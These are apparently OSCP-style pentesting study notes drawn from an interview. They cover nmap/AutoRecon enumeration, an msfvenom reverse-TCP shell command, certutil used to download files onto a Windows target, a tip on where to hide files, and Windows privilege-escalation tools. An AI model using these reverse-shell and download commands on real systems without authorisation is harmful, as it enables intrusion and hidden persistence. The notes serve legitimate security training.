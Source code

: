 # Aaron Goldstein Interview

## Enumeration

```bash
nmap $1 -F
```

### Autorecon.py

AutoRecon is the tool I used for automating the enumeration process (and OSCP exam approved)

```bash
./autorecon.py --single-target --only-scans-dir $1 -o /path/to/file
```

With `single-target`, it will only scan one target. With `only-scans-dir`, it will prevent sub-directories from being created.

### PenTest.WS

This is a great site for tracking progress against machines (can import nmap data for tracking too). I use this all the time for the Venom builder (shell creation) and other cool stuff. The free version works great.

Venom Build builds out your command for building and catching commands.

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=X.X.X.X
```

## LOLBIN

I also used a LOLBIN (Living off the Land Binary) to download files from the Windows box - the command was 

```bash
certutil -urlcache -split -f <link to file to download>
```

These are great because most systems will already have them installed.  Here is a great site that outlines TONS of them.

### Example from the Interview

After we get the file, we need to get it onto the target host.
```
python -m SimpleHTTPServer
```

This will open a server on port 8000.

```
c:\Users>certutil
```

This is a tool from Windows XP that is used to encode or decode base64. This is a Living Off the Land tool. In this case, it can also download a file from the web to encode or decode.

```
certutil -urlcache -split -f <link to file to download>
```

Another good place to hide stuff (from Justen):

```
C:\windows\system32\spool\drivers\color\
```

### Windows Privilege Escalation

A few links / tools that helped me with Windows Privesc: 

- List of pre-compiled binaries for different exploits: [Link to Github](https://github.com/abatchy17/WindowsExploits)

- WATSON: this is a tool for identifying exploits for Windows privesc - requires .NET - runs on target host
  Quick method to check what version of .NET is installed on host (needed for Watson) 
  - `reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"` 

- Windows Exploit Suggester: This is a great tool for finding exploits on windows hosts for privesc too - but this one takes in the "systeminfo" from the target host and runs locally on the attacker system.

### Windows Exploits

[Link to Github](https://github.com/abatchy17/WindowsExploits)

### WATSON

[Link to WATSON Tool](https://github.com/carlospolop/winPE/tree/master/binaries/watson)
Need to find what version .NET

```
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"
```

WATSON is doing the Windows Exploit Suggester locally.

### Windows Exploit Suggester

Windows Exploit Suggester, requires the systeminfo. It requires a security bulletin update.
On first run do:

```
python windows-exploit-suggester.py -u
```

```
python windows-exploit-suggester.py -i /path/to/systeminfo -d 2020-07-21-mssb.xls
```

This compares the security bulletin to the systeminfo and dump out the vulnerabilties
M = Metasploit module; E = There is a public exploit available.

Ideally, look for the older ones. Look for Critical or Important. Critical = non-privileged account to privileged.


